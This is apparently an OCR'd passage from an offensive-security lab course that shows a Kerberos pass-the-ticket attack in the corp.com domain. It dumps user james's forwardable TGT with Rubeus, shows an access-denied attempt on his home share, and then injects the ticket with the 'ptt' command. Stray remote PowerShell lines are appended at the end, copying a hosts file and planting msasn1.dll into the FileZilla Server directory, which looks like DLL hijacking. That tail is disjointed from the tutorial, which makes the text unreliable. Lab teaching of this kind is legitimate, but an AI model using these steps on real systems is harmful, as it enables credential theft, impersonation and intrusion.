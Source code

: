 ```
  UserPrincipalName        :


    ServiceName              :  krbtgt/CORP.COM
    ServiceRealm             :  CORP.COM
    UserName                 :  james
    UserRealm                :  CORP.COM
    StartTime                :  5/12/2023 8:17:08 AM
    EndTime                  :  5/12/2023 6:17:08 PM
    RenewTill                :  5/19/2023 8:17:08 AM
    Flags                    :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  nWTphWgmIaVfC4b6t1l1PCkXO4nb72Oy9ew3auqBn58=
    Base64EncodedTicket   :

      doIFhDCCBYCgAwIBBaEDAgEWooIEmDCCBJRhggSQMII...
```

> Listing 5 - Dumping new existing tickets with Rubeus

This time, we find a TGT for _james_ as indicated with the _krbtgt/CORP.COM_ ServiceName. The ticket is also flagged as forwardable, which means we should be able to inject it to memory and use it ourselves.

In the _corp.com_ domain, domain users have their own home folders that are shared from _FILES02_. Note that this is a different server and only the user itself should have access to its own folder. Before injecting the ticket to impersonate _james_, let's attempt to list the home folder using the _adam_ user directly from _FILES01_:

```
PS C:\Tools> dir \\files02\home$\james
dir : Access is denied
At line:1 char:1
+ dir \\files02\home$\james
+ ~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\files02\home$\james:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

> Listing 6 - Attempting to list james home folder with adam

As expected, we received a _PermissionDenied_ error since we don't currently have access to _james'_ home folder on _FILES02_.

We'll go ahead and inject the ticket into our session using Rubeus with the **ptt** command along with the ticket we obtained.

```
PS C:\Tools> .\Rubeus.exe ptt /ticket:doIFhDCCBYCgAwIBBaEDAgEW...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3


[*] Action: Import Ticket
[+] Ticket successfully imported!
```


[files02]: PS>
[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"